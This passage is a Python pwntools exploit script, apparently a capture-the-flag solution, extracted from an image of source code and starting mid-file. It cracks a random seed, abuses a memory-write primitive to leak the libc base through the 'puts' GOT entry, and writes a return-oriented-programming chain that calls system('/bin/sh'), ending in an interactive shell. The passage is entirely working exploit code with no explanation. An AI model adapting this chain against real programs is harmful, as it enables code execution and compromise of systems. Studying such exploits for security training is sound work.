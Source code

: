 ```python
    what_where(what, where + e)

gdbscript=f'''
'''

AT_PHDR = 3
AT_ENTRY = 9
AT_BASE =	7 # ld
AT_RANDOM = 25

banner_bytes = exe.symbols['__compound_literal.0']
banner_ref = exe.symbols['banner']
start = exe.symbols['_start']
tests = exe.symbols['tests']

libc_rand_calls = 0

some_banner = b"\xe2\x96\x88\x20\x20\x20\x20\x20\xe2\x96\x88\xe2\x96\x91"

def main():
  global flag
  flag = False

  # Loop
  context.log_level = 'WARNING'
  time = loopyloop()
  context.log_level = 'INFO'
  log.info(f'Loop obtained')

  # Crack
  seed = crackycrack(time)
  if not seed:
    log.info(f"Seed cracking failed.")
    return 
  log.info(f"Found seed: {hex(seed)}")

  # Leak
  writywrite(p8(exe.got.puts & 0xff), AT_ENTRY, banner_ref - start)
  libc.address = u64(r.recvline(keepends=False).ljust(8, b'\0')) - libc.symbols['puts']
  log.info(f'libc: {hex(libc.address)}')

  # Rop
  # 0x000000000002792e: pop rdi; pop rbp; ret;
  pop_rdi_rbp_ret = libc.address+ 0x000000000002792e
  ret = b''
  ret += p64(pop_rdi_rbp_ret)
  ret += p64(next(libc.search(b"/bin/sh\0")))
  ret += b'A'*8 # For alignment.
  ret += p64(libc.symbols['system'])

  writywrite(ret, AT_RANDOM, -0xc61)

  # flag = True
  # Shell
  writywrite(b'\xc7', AT_ENTRY, tests - start)

  r.interactive()

if __name__ == "__main__":
  main()
```